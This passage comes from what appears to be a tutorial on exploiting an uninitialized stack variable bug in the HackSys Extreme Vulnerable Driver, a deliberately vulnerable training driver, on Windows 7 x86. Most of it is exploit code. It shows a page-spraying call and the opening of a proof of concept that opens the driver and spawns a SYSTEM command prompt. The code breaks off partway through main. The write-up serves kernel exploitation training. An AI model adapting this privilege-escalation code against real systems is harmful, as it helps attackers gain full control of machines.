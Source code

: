 ```c++
NtMapUserPhysicalPages(&BaseAddress,1024,(PBYTE)&Page_Frame_Numbers);
```

## Finalization and shellcode

Putting this all together will our shellcode, allocation of our shellcode with virtualalloc, our spraying, and the function to map the pages. We can have our final exploit code. 

```c++
#include <Windows.h>
#include <stdio.h>
#include <iostream>

#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL 0x22202F

typedef NTSTATUS(WINAPI* _NtMapUserPhysicalPages)(
	PINT BaseAddress,
	UINT32 NumberOfPages,
	PBYTE PageFrameNumbers);


void spawnElevatedCmd() {
	std::cout << "[+] Successfully send buffer payload to the driver\n";
	std::cout << "[+] Spawning NT SYSTEM cmd prompt, enjoy!\n";

	STARTUPINFO StartupInfo;
	PROCESS_INFORMATION ProcessInformation;

	ZeroMemory(&StartupInfo, sizeof(StartupInfo));
	ZeroMemory(&ProcessInformation, sizeof(ProcessInformation));

	int aCreated = CreateProcessA("C:\\Windows\\System32\\cmd.exe",
		NULL,
		NULL,
		NULL,
		0,
		CREATE_NEW_CONSOLE,
		NULL,
		NULL,
		&StartupInfo, &ProcessInformation);
	if (aCreated == FALSE) {
		std::cout << "[!] failed to launch process - " << GetLastError() << std::endl;

	}
}

int main() {
	std::cout << "[+] HEVD - Uninitialized Stack Variable Windows 7 x86 exploit POC\n\n";
	HANDLE hDevice = CreateFileA(DEVICE_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
		NULL);

	if (hDevice == INVALID_HANDLE_VALUE) {
		std::cout << "[!] Failed to establish a device handler - " << GetLastError() << std::endl;
	}
	else {
		std::cout << "[+] Established a handle to the device - " << DEVICE_NAME << std::endl;
	}
```